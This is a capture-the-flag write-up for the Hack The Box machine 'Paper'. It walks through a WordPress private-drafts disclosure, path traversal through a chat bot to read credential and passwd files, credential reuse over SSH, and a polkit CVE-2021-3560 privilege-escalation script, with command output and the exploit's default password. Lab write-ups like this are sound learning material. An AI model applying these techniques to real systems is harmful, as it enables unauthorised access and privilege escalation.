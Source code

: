 ```yaml
---
layout: single
title: Paper HTB writeup
excerpt: "Easy linux machine in which we exploit an old wordpress version and the polkit exploit"
date: 2022-04-29
classes: wide
header:
  teaser: /assets/images/paper/icon-paper.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - wordpress
  - polkit
---
```


![](/assets/images/paper/paper.png)

# PAPER
### User Flag

First of all I used nmap and fuzzed the website but found nothing

```
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```

If we look around the website nothing interesting seems to appear but if you look at the response from any request we find an interesting field

```
X-Backend-Server: office.paper
```

This means there is a backend server at that location so if we add that to our /etc/host we can connect to it.

```bash
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1			localhost
10.10.11.143         office.paper
```

Reading through the web we find and interesting comment **"Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!"**
At this point I used wpscan to see if I could find something

```bash
wpscan --url office.paper

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://office.paper/ [10.10.11.143]
[+] Started: Fri Apr 29 07:10:43 2022
...

[!] 32 vulnerabilities identified:
...
```

One of them specially caught my eye "Unauthenticated Users View Private Posts", to apply it you just had to use this url **http://office.paper/?static=1** and the draft page will appear.
Here I found a url to register in a chat website so I did (I also had to add the url at etc/hosts). After reading through the general channel I started messing with the bot to see what I could do.
After some time I ended up looking  ../hubot/.env and I got this


```
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD= ████████
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>

```

Previously I also looked at /etc/passwd and noticed a user called dwight that matched with who created the bot so I tried connecting via ssh with that user and password an it worked.

### Root flag

Once I was in I just used linpeas.sh as usual although I had to download to my machine and then pass it to the victim since it seemed the victim could not connect outside the network

```bash
[kali@kali ~]$ python3 -m http.server 5050

Serving HTTP on 0.0.0.0 port 5050 (http://0.0.0.0:5050/) ...

...

[dwight@paper ~]$ wget 10.10.14.127:5050/linpeas.sh
--2022-04-29 07:44:30--  http://10.10.14.127:5050/linpeas.sh
Connecting to 10.10.14.127:5050... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776167 (758K) [text/x-sh]
Saving to: ‘linpeas.sh.1’

linpeas.sh.1                           100%[===========================================================================>] 757.98K  2.44MB/s    in 0.3s

2022-04-29 07:44:30 (2.44 MB/s) - ‘linpeas.sh.1’ saved [776167/776167]


```

Once I executed it one of the firsts lines underlined in orange said Vulnerable to **CVE-2021-3560**
So I searched for an exploit, I found two (the python one did not work for me)

https://github.com/Almorabea/Polkit-exploit // did not work

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh // worked

I downloaded the script as I did before and used it

```bash
[dwight@paper ~]$ chmod +x poc.sh
[dwight@paper ~]$ ./poc.sh

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$ su secnigma
Password:
[secnigma@paper dwight]$ sudo bash
[sudo] password for secnigma:
[root@paper dwight]#

```

default password is *secnigmaftw*. It's normal that it doesn't work at first, I had to do it 3 times until it worked
